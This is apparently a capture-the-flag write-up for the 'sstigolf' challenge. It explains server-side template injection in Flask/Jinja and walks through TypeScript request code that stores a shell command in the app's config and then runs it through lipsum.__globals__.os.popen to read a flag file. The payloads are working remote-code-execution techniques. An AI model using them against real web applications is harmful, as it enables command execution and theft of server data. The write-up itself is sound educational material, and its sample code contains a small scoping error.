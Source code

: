 Other blogs suggest hacking Python object tree to import module. Watch helpful youtube video ('Server-Side Template Injections Explained' by PwnFunction). They suggest accessing Python os module through url_for global object:
```javascript
const payload = `{{lipsum.__globals__.os.popen('cat an_arbitrarily_named_file').read()}}`
```

Too long!
```javascript
// sstigolf.ts
// STEP 1: Update config variable with partial payload

// partialPayload
const bindPayloadToConfig = async () => {
    const partialPayload = `cat an_arbitrarily_named_file`;
    // 'p' for 'payload'
    const payloadKey = 'p';
    // query tells server to get value from url parameter 'p' and store it in Flask config variable
    const query = `{{config.update(${payloadKey}=request.args.get('${payloadKey}'))}}`;
    // Make GET request with two url parameters, 'p' and 'query'
    const targetURL = new URL(`https://sstigolf.ictf2022.iciaran.com/ssti?${payloadKey}=${partialPayload}&query=${query}`);
    const response = await fetch(targetURL);
    // If all went well, we should not get a server error
    const responseText = await response.text();
    console.log({responseText});
}

bindPayloadToConfig();
// sstigolf.ts
// STEP 2: Reconstruct full payload and get flag

const runPayload = async (payloadKey: string) => {
    // query that constructs and executes full payload
    const query = `{{lipsum.__globals__.os.popen(config.${payloadKey}).read()}}`;
    // Make GET request, this time with just `query` url parameter
    const targetURL = new URL(`https://sstigolf.ictf2022.iciaran.com/ssti?query=${query}`);
    const flag = await fetch(targetURL);
    // If all went well, we should get flag!
    const flagText = await flag.text();
    console.log({flagText});
}
// Wait a few seconds for server to update with partial payload
setTimeout(() => runPayload(payloadKey), 3000);
```

Breakdown of query:
```python
// Jinja template tags. This tricks server into evaluating content between brackets 
{{}}
// `lipsum` is global variable available in Flask applications. Use it to navigate to Python os module
{{lipsum.__globals__.os}
// Use os.popen to run terminal commands.
{{lipsum.__globals__.os.popen()}}
// Run command `cat an_arbitrarily_named_file` that we previously attached to `config` dictionary under the key 'p'
{{lipsum.__globals__.os.popen(config.p)}}
// Normally os.popen outputs to standard out, but we want the server to insert the output of `cat an_arbitrarily_named_file`, i.e. the flag, into the response that we get in our browser. We do this with the `.read()` method 
{{lipsum.__globals__.os.popen(config.p).read()}}
```
